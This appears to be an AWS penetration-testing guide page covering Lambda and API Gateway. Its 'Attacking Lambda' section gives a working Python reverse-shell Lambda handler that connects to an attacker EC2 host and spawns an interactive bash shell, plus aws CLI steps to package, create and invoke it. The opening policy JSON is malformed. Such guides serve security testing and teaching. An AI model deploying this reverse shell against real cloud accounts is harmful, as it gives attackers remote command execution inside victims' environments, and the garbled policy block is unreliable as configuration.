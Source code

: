 ```json
} {
    Policy: "Statement":["Principal":{"Service":"s3.amazonaws.com"}],
    RevisionId: a331c81e-49e4-40b5-8b90-b3ecc0244721
} {
    Policy: "Statement":["Action":"lambda:InvokeFunction"],
    RevisionId: a331c81e-49e4-40b5-8b90-b3ecc0244721
} {
    Policy: "Statement":["Resource":"arn:aws:lambda:us-east-2:379646506984:function:s3lambda"],
    RevisionId: a331c81e-49e4-40b5-8b90-b3ecc0244721
} {
    Policy: "Statement":["Condition":"StringEquals":{"AWS:SourceAccount":"379646506984"}],
    RevisionId: a331c81e-49e4-40b5-8b90-b3ecc0244721
} {
    Policy: "Statement":["Condition":"ArnLike":{"AWS:SourceArn":"arn:aws:s3:::lambda115"}],
    RevisionId: a331c81e-49e4-40b5-8b90-b3ecc0244721
}
```
## Attacking Lambda
### Creating a function to get a reverse shell
**1- Create a python reverse shell script**
We are going to use this for now -> `python2.7`
```python
import socket,subprocess,os

def lambda_handler(event, context):
    # TODO implement
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("ec2 hostname", port))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash","-i"]);
```
**2- Zip the function script**
```bash
zip function.zip revshell.py
```
**3- Create a lambda function**
```bash
aws lambda create-function --function-name <My-Function> --zip-file fileb://function.zip --handler index.handler --runtime python2.7 --role arn:aws:iam::123456789012:role/lambda-ex
```
**4- Invoke the function to get a Reverse shell**
```bash
aws lambda invoke --function-name <<Lambda ARN>> --invocation-type RequestResponse outfile.txt
```
> Lambda with CLI : https://docs.aws.amazon.com/lambda/latest/dg/gettingstarted-awscli.html

# API Gateway
**AWS API Gateway** acts as a gateway to applications that can host various types of data such as the locations of S3 buckets or an overly permissive header.
AWS works with two API types:
- **RESTful APIs:** REpresentational State Transfer.RESTful API design enables us to make what is called a stateless call or stateless request. This stateless request allows calls to be redeployed if something fails, and can also scale when needed.
- **WebSocket API:** The WebSocket API gateway is a collection of various routes integrated with various services such as Lambda functions and HTTP endpoints.WebSocket APIs are **bidirectional** and ensure that an end client can send traffic to and from services and that services can also send communication back to the client.It's commonly used in applications that run real-time streaming channels.